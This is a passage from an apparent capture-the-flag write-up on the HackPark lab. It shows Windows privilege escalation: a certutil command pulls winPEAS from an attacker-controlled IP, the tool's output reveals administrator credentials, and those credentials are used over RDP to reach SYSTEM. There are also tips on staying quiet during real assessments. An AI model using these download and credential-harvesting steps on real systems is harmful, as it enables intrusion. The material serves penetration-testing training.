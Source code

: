 ### PrivEsc

Let's get `WinPEAS` on our target. I like to use `winPEAS.bat` and upload via my own machine, serving it with Python module `SimpleHTTPServer`. Then, I'll download in on target with the following command:

```text
certutil -urlcache -f http://10.11.27.240/winPEAS.bat winPEAS.bat
```
NB : make sure to use a writable folder, such as: `C:\Users\Public`.

We run it with :

```text
winPEAS.bat log
```
The `log` switch will save output to a log file and display it. Since we are training, there is no problem in saving the log in the remote machine. However, on a real assessment where you could have to hide you tracks, it might be better to simply print the log and copy it manually in order to save it outside the target. In any case, like with scanning tools, it is preferred to run the tool only once and save output. It will make you "quieter", which is want you probably want.

WinPEAS will reveal some `Administrator credentials` :

![HackPark Admin Pass](/images/2021/02/HackPark_Admin_Pass.png)

We try them in RDP, and boom! We are in as `SYSTEM` :

![HackPark Admin RDP](/images/2021/02/HackPark_Admin_RDP.png)
